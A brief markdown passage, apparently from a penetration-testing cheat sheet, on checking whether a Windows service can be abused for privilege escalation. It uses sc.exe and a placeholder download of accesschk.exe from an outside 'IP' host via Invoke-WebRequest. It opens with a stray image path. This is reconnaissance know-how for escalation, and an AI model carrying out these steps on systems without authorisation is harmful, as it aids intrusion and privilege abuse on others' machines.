 First, get base info of the service:
```
sc.exe qc SERVICE
```

If the service is running at high authority, check the user's priveleges:
```
Invoke-WebRequest http://IP/accesschk.exe -o accesschk.exe
./accesschk.exe /accepteula -uc USERNAME SERVICE 
```

